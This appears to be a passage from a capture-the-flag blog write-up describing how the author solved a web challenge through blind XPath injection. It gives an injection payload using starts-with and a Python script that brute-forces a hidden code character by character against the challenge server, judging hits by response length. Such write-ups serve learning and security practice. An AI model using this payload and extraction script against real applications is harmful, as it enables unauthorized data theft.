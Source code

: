 
Further googling told me that I need to perform an X path injection. This is basically like sql injection and has "or 1=1" , "and" we can use. I googled even more to find two function of my use: "contains" and "starts-with". As the name suggests we can use these filters to find the flag.

[Here is where I read them from](https://docs.microsoft.com/en-us/previous-versions/troubleshoot/msxml/use-starts-with-xpath-function).

After some more testing I found that the server gives me answer as a yes/no. So I needed a script again. I just used the above script with some improvements and modifications. And here is the payload I created to find the flag.

`'] or /military/district/staff/selfDestructCode[starts-with(.,'CHTB{"+x+"')] or /military/district/staff[name='Baic`

"x" is the chars I will replace it with. The flag was divided in two places in the xml file SO I had to make some modifications after getting the first half of the flag. I know I should automate stuff more but I was on the clock and needed a quick and dirty flag.

```
import requests
import string

flag='CHTB{'
secflag='4'
length="72"
while("}"!=flag[-1]):
	for x in string.ascii_letters + string.digits + "!@#$%^()@_{}":
		data={"search":"'] or /military/district/staff/selfDestructCode[starts-with(.,'"+secflag+x+"')] or /military/district/staff[name='Baic"}
		#if x == 'C':
		#	continue
		#data={"search":"'] or /military/district/staff/selfDestructCode[starts-with(.,'"+secflag+x+"')] and /military/district/staff/selfDestructCode[contains(.,'}')] or /military/district/staff[name='Baic"}
		r=requests.post("http://138.68.177.159:32689/api/search",json=data)
		#print(x,r.headers.get('Content-Length'))
		if (r.headers.get('Content-Length')==length):
			secflag+=x
			print(secflag)
print(secflag)

```


This was all I can jam into one blog. Will write more as I encounter more interesting challenges.